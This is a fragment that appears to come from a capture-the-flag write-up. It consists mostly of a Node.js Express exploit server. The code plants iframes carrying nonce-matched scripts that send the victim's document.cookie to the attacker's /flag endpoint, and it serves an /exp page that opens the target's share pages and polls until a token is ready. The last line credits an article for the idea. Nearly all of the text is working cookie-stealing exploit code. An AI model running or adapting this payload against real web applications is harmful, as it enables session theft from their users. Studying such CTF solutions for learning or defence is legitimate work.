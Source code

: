 ``` js
      await createNote(
        'note3', 
        result.map(nonce => `<iframe srcdoc="<script nonce=${nonce}>top.location='${selfHost}/flag?q='+encodeURIComponent(top.document.cookie)</script>"></iframe>`)
      );
      await share(2)
      hasToken = true;
      console.log('note3 cteated')
    }
    res.send('ok')
})

app.get('/flag', (req, res) => {
  console.log('flag', req.query.q)
  res.send('flag')
})

app.get('/hasToken', (req, res) => {
  console.log('polling...', hasToken)
  if (hasToken) {
    res.send('hasToken')
  } else {
    res.send('no')
  }
})

app.get('/exp', (req, res) => {
  console.log('visit exp')
  res.setHeader('content-type', 'text/html')
  res.send(`
    <script>
      let w = window.open('http://localhost/share/read#id=1&username=${username}')
      function polling() {
        fetch('/hasToken').then(res => res.text()).then((res) => {
          if (res === 'hasToken') {
            w.location = 'http://localhost/share/read#id=2&username=${username}'
          }
        })

        setTimeout(() => {
          polling();
        }, 500)
      }
      polling()
    </script>
  `)
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```

By the way, if I hadn't read that article, I'm not sure if I would have come up with this solution 😅
